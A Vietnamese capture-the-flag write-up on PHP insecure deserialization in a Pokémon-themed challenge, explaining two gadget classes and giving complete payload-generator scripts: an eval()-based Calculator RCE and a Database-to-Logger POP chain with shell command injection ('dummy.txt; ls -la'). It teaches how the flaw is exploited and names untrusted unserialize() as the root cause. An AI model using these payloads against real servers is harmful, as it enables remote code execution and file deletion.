 # PHP Deserialization 3

# Thử thách về lỗi bảo mật liên quan đến quá trình Serialize và Deserialize

# Mục tiêu: RCE server và đọc bí mật ở thư mục gốc
Trong file utils.php của bạn, có ít nhất hai "gadget" (đoạn code có thể bị lạm dụng) cực kỳ nguy hiểm:

- `Calculator->run()`: Dẫn đến thực thi mã từ xa (RCE) thông qua `eval()`.
- `Logger->close()`: Dẫn đến xóa file tùy ý thông qua `system("rm ...")`.
## Kịch bản 1: Thực thi mã từ xa (RCE) với `Calculator` (Đơn giản và Trực tiếp)
Đây là kịch bản tấn công đơn giản và nguy hiểm nhất.

Phân tích:

Class `Trainer` có một phương thức tên là `run()`.

Class `Calculator` cũng có một phương thức tên là `run()`.
```
class Calculator {
    public $expression;
    public function __construct($expr) {
        $this->expression = $expr;
    }

    public function run() {
        $result = eval($this->expression);
        return $result;
    }
}
```

Khi người chơi chạy trốn trong game (ví dụ ở map1.php), server sẽ gọi `$_SESSION["trainer"]->run()`.

Tạo Payload: Kẻ tấn công tạo một file `pokemon.sav` chứa đối tượng `Calculator` đã được serialize, trong đó thuộc tính `$expression` chứa mã PHP độc hại.

Payload: ```O:10:"Calculator":1:{s:10:"expression";s:18:"system('ls -la');";}```

`O:10:"Calculator"`: Tạo đối tượng class `Calculator`.

`s:10:"expression";s:18:"system('ls -la');"`: Gán giá trị `system('ls -la')`; cho thuộc tính `expression`.
Tấn công:

Kẻ tấn công dùng chức năng "Load Game" để tải file pokemon.sav này lên.

Hàm unserialize() trong save-load.php sẽ tạo ra một đối tượng Calculator và lưu vào `$_SESSION["trainer"]`.

Bây giờ, kẻ tấn công di chuyển trên bản đồ và chọn hành động "Run" (chạy trốn).

Kích hoạt:
- Lệnh ls -la được thực thi trên server, và kẻ tấn công đã chiếm được quyền thực thi mã từ xa.
## Tạo Payload cho RCE
Để tạo payload cho RCE, kẻ tấn công cần viết một đoạn mã PHP để tạo ra đối tượng `Calculator` với thuộc tính `expression` chứa mã PHP độc hại
và sau đó serialize đối tượng này. Dưới đây là ví dụ về cách làm điều này:

```
<?php
// File: generate_calculator_payload.php (chạy trên máy của kẻ tấn công)

// Kẻ tấn công chỉ cần định nghĩa class với thuộc tính cần thiết để serialize.
class Calculator {
    public $expression;
}

// 1. Tạo một đối tượng Calculator.
$malicious_object = new Calculator();

// 2. Gán mã PHP độc hại vào thuộc tính 'expression'.
//    Hàm system() sẽ thực thi một lệnh của hệ điều hành.
//    Ở đây là lệnh 'ls -la' để liệt kê tất cả file trong thư mục hiện tại.
$malicious_object->expression = "system('ls -la');";

// 3. Serialize đối tượng để tạo ra chuỗi payload.
$payload = serialize($malicious_object);

// 4. In ra chuỗi payload. Kẻ tấn công sẽ sao chép chuỗi này
//    và lưu vào file tên là 'pokemon.sav'.
echo $payload;
// Kết quả ví dụ: O:10:"Calculator":1:{s:10:"expression";s:18:"system('ls -la');";}
?>
```
## Kịch bản 2: Xóa file tùy ý với `Logger` (Phức tạp hơn)
Class `Logger` có một phương thức tên là `close()`, sử dụng hàm `system()` để xóa file tùy ý.
```
class Logger {
    public $filepath;
    public function __construct($filepath) {
        $this->filepath = $filepath;    
    }

    public function log($data) {
        $file = fopen($this->filepath, "w");
        fwrite($file, $data);
        fclose($file);
    }

    public function close() {
        system("rm " . $this->filepath);
    }

}
```
Khai thác Logger để thực thi lệnh (Command Injection)

Câu hỏi của bạn về việc dùng `; ls -la` là hoàn toàn chính xác. Đây là một kỹ thuật kinh điển gọi là Command Injection.

Kẻ tấn công không cần xóa file. Họ có thể dùng dấu chấm phẩy (`;`) để kết thúc lệnh `rm` và bắt đầu một lệnh mới.

Code PHP kẻ tấn công sử dụng để tạo payload (POP Chain)
Kịch bản này phức tạp hơn vì `Logger->close()` không được gọi trực tiếp. Kẻ tấn công phải tạo một chuỗi tấn công (POP Chain) bằng cách lạm dụng magic method `__destruct` của class `Database`.
```
<?php
// File: generate_logger_payload.php (chạy trên máy của kẻ tấn công)

// Định nghĩa các class cần thiết cho chuỗi POP chain.
class Database {
    public $conn;
}

class Logger {
    public $filepath;
}

// --- Bắt đầu tạo payload ---

// 1. Tạo đối tượng cuối cùng trong chuỗi (Logger) với payload command injection.
$logger_object = new Logger();

// 2. Gán payload vào thuộc tính 'filepath'.
//    - 'dummy.txt' là tên file giả để lệnh 'rm' không báo lỗi.
//    - ';' là ký tự ngăn cách lệnh trong shell.
//    - 'ls -la' là lệnh mà kẻ tấn công thực sự muốn chạy.
$logger_object->filepath = "dummy.txt; ls -la";

// 3. Tạo đối tượng bắt đầu chuỗi (Database).
$database_object = new Database();

// 4. Liên kết chuỗi: Gán đối tượng Logger vào thuộc tính 'conn' của Database.
$database_object->conn = $logger_object;

// 5. Serialize đối tượng đầu chuỗi (Database) để tạo payload cuối cùng.
$payload = serialize($database_object);

// 6. In ra payload.
echo $payload;
// Kết quả ví dụ: O:8:"Database":1:{s:4:"conn";O:6:"Logger":1:{s:8:"filepath";s:17:"dummy.txt; ls -la";}}
?>
```
Cách khai thác

Kẻ tấn công tạo và tải file `pokemon.sav` chứa payload của `Database` lên.

Server `unserialize()` chuỗi này, tạo ra một đối tượng `Database` mà thuộc tính `conn` của nó lại là một đối tượng `Logger` chứa payload độc hại.

Script `save-load.php` chạy xong.

PHP tự động gọi magic method `__destruct()` trên đối tượng `Database`.

Hàm `__destruct()` thực thi `$this->conn->close()`.

Vì `$this->conn` chính là đối tượng `Logger`, lệnh này thực chất là gọi `Logger->close()`.

Hàm `Logger->close()` được gọi, và nó thực thi lệnh `system("rm " . $this->filepath)`.

Lệnh cuối cùng được thực thi trên shell của server là: `system("rm dummy.txt; ls -la")`. Shell sẽ chạy lệnh `rm dummy.txt `trước, sau đó chạy lệnh `ls -la`.

Cả hai kịch bản này đều cực kỳ nguy hiểm và đều bắt nguồn từ một điểm yếu duy nhất: việc tin tưởng và `unserialize()` dữ liệu từ người dùng. Hy vọng các ví dụ trên đã giúp bạn hiểu rõ hơn về cách chúng bị khai thác.